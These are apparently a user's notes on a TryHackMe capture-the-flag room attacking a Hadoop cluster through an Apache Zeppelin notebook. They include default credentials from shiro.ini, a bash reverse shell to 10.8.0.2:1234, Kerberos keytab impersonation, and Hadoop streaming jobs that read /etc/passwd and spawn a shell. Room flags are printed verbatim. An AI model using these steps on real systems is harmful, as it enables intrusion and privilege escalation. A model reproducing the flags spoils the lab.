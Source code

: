 # initial access
### Foothold
---
## login to Zepplin edge node
- In web Browser navigate to thm_hapoop_network.net:8080
- From Notebook select TestNode note
- this shows the contents of "shiro.ini" and FLAG1
	- %python
	import os
	os.system('cat conf/shiro.ini')
	%FLAG1- THM{Whats.That.Smell.On.The.Hindenburg?}
- Also find default creds
	- !#admin = password1, admin
	user1 = password2, role1, role2
	user2 = p@ssw0rd12345, role3
	user3 = password4, role2
- At the bottom of the page you will find a python interpreter that allows you to run python code
	- pop in a  bash one liner 
		- python
			import os
			os.system('bash -i >& /dev/tcp/10.8.0.2/1234 0>&1')
- you will get a pop up telling you that you don't have permissions to execute code
- 
 ![[Pasted image 20220304100057.png]]


	- so going back to the default users 
	- login as user2
- rerun the python interpreter 
	- get revshell on box and stablize she with the python one liner

# On the Box as user zp
## Enumerate User
- cat flag2.txt
- upload and run linpeas.sh
## Kerberos authentication

- Kerberos keytabs
	- Locate KeyTabs
		- /etc/security/keytabs/
	
 - [zp@hadoop zeppelin]$ ls -l /etc/security/keytabs/
			total 36
		-r--r----- 1 root hadoop_services 436 Mar  4 15:37 dn.service.keytab
		-r--r----- 1 root hadoop_services 442 Mar  4 15:37 jhs.service.keytab
		-r--r----- 1 root hadoop_super    436 Mar  4 15:37 nm.service.keytab
		-r--r----- 1 root hadoop_services 436 Mar  4 15:37 nn.service.keytab
		-r--r----- 1 root hadoop_services 436 Mar  4 15:37 rm.service.keytab
		-r-------- 1 root hadoop_super    334 Mar  4 15:37 root.service.keytab
		-r--r----- 1 root hadoop_services 448 Mar  4 15:37 spnego.service.keytab
		-r--r----- 1 root hadoop_services 448 Mar  4 15:37 yarn.service.keytab
		-r--r----- 1 root hadoop_services 436 Mar  4 15:37 zp.service.keytab
-  The klist command can be used to gather information from a keytab
	-  `klist -k <keytabfile>`
		[zp@hadoop zeppelin]$ klist -k /etc/security/keytabs/zp.service.keytab
		Keytab name: FILE:/etc/security/keytabs/zp.service.keytab
		KVNO Principal:
		   2 zp/hadoop.docker.com@EXAMPLE.COM
		   2 zp/hadoop.docker.com@EXAMPLE.COM
		   2 zp/hadoop.docker.com@EXAMPLE.COM
		   2 zp/hadoop.docker.com@EXAMPLE.COM
		   2 zp/hadoop.docker.com@EXAMPLE.COM
		   2 zp/hadoop.docker.com@EXAMPLE.COM
-  The kinit command can be used with information from  a keytab, for authenticating to a Kerberos server, and request a ticket
	- `kinit <principal name> -k -V -t <keytabfile>`
	- Authenticate as the zp user 
		- 
- locate the hadoop/bin directory and add it to $PATH to be able to run hdfs commands
	- export PATH=/usr/local/hadoop/bin:$PATH
	- using HDFS commands cat flag3.txt in the zp user's HDFS home directory

# Privilege Escalation

- Using the above proccess escalate privileges to the Yarn service
- verify escalation by using the HDFS interface to touch a file to the `/tmp`
	- grab the flag in the impersonated user's HDFS home directory (flag4.txt)
- create remote code execution job that will drop you into a os shell as the Yarn user
	- ## read file
		- hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.7.jar -input /tmp/shell.sh -output test/ -mapper "/bin/cat /etc/passwd" -reducer NONE
	- ## reverse shell [[revshell]]
		- hadoop jar /usr/local/hadoop-2.7.7/share/hadoop/tools/lib/hadoop-streaming-2.7.7.jar -input /tmp/shell.sh -output masdf -mapper ./shell.sh -reducer NONE -file "shell.sh" -background

Privilege Escalation Notes
---
* [[#Enumeration]] 
* [[#Initial Foothold]] 
* [[#Privilege Escalation]]